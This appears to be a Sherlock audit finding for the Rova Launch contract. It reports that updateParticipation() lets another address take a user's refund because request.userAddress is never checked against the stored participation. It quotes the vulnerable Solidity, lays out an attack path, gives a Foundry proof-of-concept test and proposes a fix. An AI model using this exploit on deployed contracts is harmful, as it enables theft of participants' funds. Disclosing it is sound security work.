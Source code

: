 Zealous Black Coyote

High

# Steal money from the protocol

### Summary

The protocol does not verify that `request.userAddress == prevInfo.userAddress`, which allows a bad actor to exploit this vulnerability and steal money from the protocol.

### Root Cause

https://github.com/sherlock-audit/2025-02-rova/blob/main/rova-contracts/src/Launch.sol#L338-L344
The `updateParticipation()` function allows users to update the requested token amount for an existing participation. In the `_validateRequest()`, the protocol verifies that `msg.sender == request.userAddress`. 

```solidity
      // Validate launch id, chain id, user address, and launch group is valid
        if (
            _launchId != launchId || _chainId != block.chainid || msg.sender != _userAddress
                || !_launchGroups.contains(_launchGroupId)
        ) {
            revert InvalidRequest();
        }

```

The protocol then fetches the previous participation info as shown below:  
```solidity

ParticipationInfo storage prevInfo = launchGroupParticipations[request.prevLaunchParticipationId]

```

The protocol verifies that the requested user ID and currency match. 
```solidity
      if (request.currency != prevInfo.currency) {
            revert CurrencyMismatch(prevInfo.currency, request.currency);
        }
        if (request.userId != prevInfo.userId) {
            revert UserIdMismatch(prevInfo.userId, request.userId);
        }

```

If the new requested token amount is less than the old amount, the protocol transfers the payment currency from the contract to `msg.sender`. 

```solidity
 // If new requested token amount is less than old amount, handle refund
        if (prevInfo.currencyAmount > newCurrencyAmount) {
            // Calculate refund amount
            uint256 refundCurrencyAmount = prevInfo.currencyAmount - newCurrencyAmount;
            // Validate user new requested token amount is greater than min token amount per user
            if (userTokenAmount - refundCurrencyAmount < settings.minTokenAmountPerUser) {
                revert MinUserTokenAllocationNotReached(
                    request.launchGroupId, request.userId, userTokenAmount, request.tokenAmount
                );
            }
            // Update total tokens requested for user for launch group
            userTokens.set(request.userId, userTokenAmount - refundCurrencyAmount);
            // Transfer payment currency from contract to user
            IERC20(request.currency).safeTransfer(msg.sender, refundCurrencyAmount);
        } 

```

The issue here is that the protocol does not verify that `prevInfo.userAddress == msg.sender`. This means a malicious actor could update another user's participation, causing them to steal money from the protocol.

### Internal Pre-conditions

At least one participant

### External Pre-conditions

None

### Attack Path

1. The bad actor finds an existing participant (userId: testUserId, currency: currency, userAddress: Alice).  
2. The bad actor builds the `UpdateParticipationRequest` with the same information as Alice's request, but with userAddress set to Bob.  
3. After obtaining the signature from the signer role, Bob calls the `updateParticipation()` function to decrease the amount.  
4. Profit

### Impact

Steal money from the protocol.

### PoC

Put the following POC code into the `Launch.UpdateParticipation.t` contract, then run `forge test --match-test "test_UpdateParticipation_DecreaseAmount2" -vvv`.

```solidity

function _createUpdateParticipationRequest2(uint256 newTokenAmount)
        internal
        view
        returns (UpdateParticipationRequest memory)
    {
        uint256 launchTokenDecimals = launch.tokenDecimals();
        return UpdateParticipationRequest({
            chainId: block.chainid,
            launchId: testLaunchId,
            launchGroupId: testLaunchGroupId,
            prevLaunchParticipationId: testLaunchParticipationId,
            newLaunchParticipationId: "newLaunchParticipationId",
            userId: testUserId,
            userAddress: user2,
            tokenAmount: newTokenAmount * 10 ** launchTokenDecimals,
            currency: address(currency),
            requestExpiresAt: block.timestamp + 1 hours
        });
    }
 function test_UpdateParticipation_DecreaseAmount2() public {
        // Prepare update participation request
        UpdateParticipationRequest memory updateRequest = _createUpdateParticipationRequest2(500);

        bytes memory updateSignature = _signRequest(abi.encode(updateRequest));
        uint256 initialCurrencyBalance = currency.balanceOf(user2);

        // Expect ParticipationUpdated event
        vm.expectEmit();
        emit ParticipationUpdated(
            updateRequest.launchGroupId,
            updateRequest.newLaunchParticipationId,
            testUserId,
            user2,
            updateRequest.tokenAmount,
            address(currency)
        );

        vm.startPrank(user2);
        // Update participation
        launch.updateParticipation(updateRequest, updateSignature);
    
        // Verify refund
        assertEq(currency.balanceOf(user2), initialCurrencyBalance + 500 * 10 ** launch.tokenDecimals());

         vm.stopPrank();
    }


```

### Mitigation

Verify that `request.userAddress == prevInfo.userAddress`.
```solidity
   if (request.userAddress != prevInfo.userAddress) {
            revert UserAddressMismatch(prevInfo.userAddress, request.userAddress);
        }

```